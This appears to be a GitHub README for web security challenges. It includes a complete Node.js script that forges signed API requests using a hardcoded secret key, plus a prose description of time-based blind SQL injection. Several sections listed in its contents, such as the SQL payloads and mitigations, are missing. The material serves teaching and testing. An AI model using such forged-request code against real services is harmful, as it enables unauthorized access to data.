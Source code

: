 # Web Application Security Challenges: Signed URL Exploitation & Blind SQL Injection (Time-Based)

This repository showcases the exploitation of two common web application vulnerabilities:

1. **Signed URL Exploitation**  
2. **Blind SQL Injection (Time-Based)**  

These vulnerabilities are common in real-world applications and demonstrate techniques used in bug bounty programs and penetration testing engagements.

---

## Table of Contents

- [Signed URL Exploitation](#signed-url-exploitation)
    - [Challenge Overview](#challenge-overview)
    - [Reversing the Obfuscated JavaScript](#reversing-the-obfuscated-javascript)
    - [Example Code to Forge Signed Request](#example-code-to-forge-signed-request)
    - [Security Implications](#security-implications)
    - [Mitigation Strategies](#mitigation-strategies)
  
- [Blind SQL Injection (Time-Based)](#blind-sql-injection-time-based)
    - [Challenge Overview](#challenge-overview-1)
    - [Exploiting the Time-Based Blind SQL Injection](#exploiting-the-time-based-blind-sql-injection)
    - [SQL Injection Payloads](#sql-injection-payloads)
    - [Security Implications](#security-implications-1)
    - [Mitigation Strategies](#mitigation-strategies-1)

---

## Signed URL Exploitation

### Challenge Overview
In this challenge, we explore a vulnerability where a web application generates cryptographic signatures for each API request to ensure that the URL and parameters cannot be tampered with. The signature process, however, is done client-side via JavaScript, which can be exploited by reverse-engineering the signature logic and crafting our own valid signed requests.

### Reversing the Obfuscated JavaScript
Upon intercepting requests, we found that the **Sign** and **Time** headers were being generated dynamically in the client-side JavaScript. The values were obfuscated to prevent easy understanding. Using browser developer tools, we analyzed the obfuscated code and reverse-engineered the signature generation logic.

After inspecting the obfuscated code and setting breakpoints, we identified how the signature was created using the SHA-1 hashing algorithm and how the request parameters were included in the signature string.

### Example Code to Forge Signed Request
The following example demonstrates how we can forge a valid signed request by calculating the signature and sending a modified request to retrieve sensitive data:

```javascript
const axios = require('axios');
const sha1 = require('js-sha1');

// Function to calculate the signature
function calculateSignature(timestamp, pathName, userId) {
    const secretKey = "pE5CRmAhC8fvaWy6u58tKDTEKCZyTKLA";
    const signatureString = [
        secretKey,
        timestamp,
        pathName,
        userId
    ].join('\n');
    return sha1(signatureString);
}

// Function to send the forged request
async function sendModifiedRequest() {
    const timestamp = Date.now().toString();
    const path = '/api/article?id=3';  // Target Article ID
    const userId = '379578839';

    const sign = calculateSignature(timestamp, path, userId);

    try {
        const response = await axios.get('https://[target-url]/api/article?id=3', {
            headers: {
                'Host': '[host-url]',
                'Accept': '*/*',
                'Content-Type': 'application/json',
                'User-Agent': 'Mozilla/5.0',
                'Sign': sign,
                'Time': timestamp,
                'User-Id': userId
            }
        });

        console.log('✅ Response data:', response.data);
    } catch (error) {
        console.error('❌ Error:', error.response?.data || error.message);
    }
}

sendModifiedRequest();
```

### Security Implications:

1. Client-Side Signature Generation: If signatures are generated on the client-side, attackers can reverse engineer the logic and forge requests.

2. Obfuscation: Obfuscation does not protect the signature generation logic. Attackers can still reverse it.

## Blind SQL Injection (Time-Based):

In this challenge, we perform a Blind SQL Injection (Time-Based) attack on a vulnerable web application after the signature process. This attack allows us to extract data from the database by exploiting time delays caused by SQL queries. The idea is to send a payload that causes the server to delay its response (e.g., using SLEEP) and use the timing of the response to infer data about the database.

### Exploiting the Time-Based Blind SQL Injection
To exploit a time-based blind SQL injection, we inject a payload into an application endpoint that takes user input and send the modified request. The server's response time changes based on the result of our injected query, allowing us to deduce information about the database structure and its contents.

# Conclusion
This repository showcases the exploitation of two major web application vulnerabilities:

Signed URL Exploitation: How attackers can forge signed requests by reverse engineering client-side logic.

Blind SQL Injection (Time-Based): A method to dump sensitive data from a vulnerable database by leveraging time-based delays.

# How to run:

```bash
npm install axios js-sha1
```